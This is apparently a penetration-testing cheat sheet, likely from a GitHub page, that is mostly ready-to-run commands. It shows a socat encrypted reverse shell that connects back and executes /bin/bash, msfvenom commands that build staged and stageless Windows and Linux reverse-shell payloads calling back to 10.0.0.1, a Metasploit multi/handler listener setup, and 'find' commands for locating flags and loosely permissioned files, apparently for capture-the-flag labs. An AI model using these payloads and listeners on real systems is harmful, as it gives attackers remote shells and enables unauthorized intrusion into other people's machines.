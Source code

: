 ## SOCAT ENCRYPTED SHELLS
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt 
cat shell.crt shell.key > shell.pem


# TO START THE ENCRYPTED LISTENER
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

# TO CONNECT TO THE LISTENER
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## MSFVENOM 

Windows
```
# STAGED
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

# STAGELESS
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

LINUX
```
# STAGED 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
# STAGELESS 
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Once payload is created. Run multi handler 
```
msfconsole -q
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444
exploit -j # To run as background job 
```


```
Find files:

find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
find / -type d -name config: find the directory named config under “/”
find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x: find executable files
find /home -user frank: find all files for user “frank” under “/home”
find / -mtime 10: find files that were modified in the last 10 days
find / -atime 10: find files that were accessed in the last 10 day
find / -cmin -60: find files changed within the last hour (60 minutes)
find / -amin -60: find files accesses within the last hour (60 minutes)
find / -size 50M: find files with a 50 MB size
```
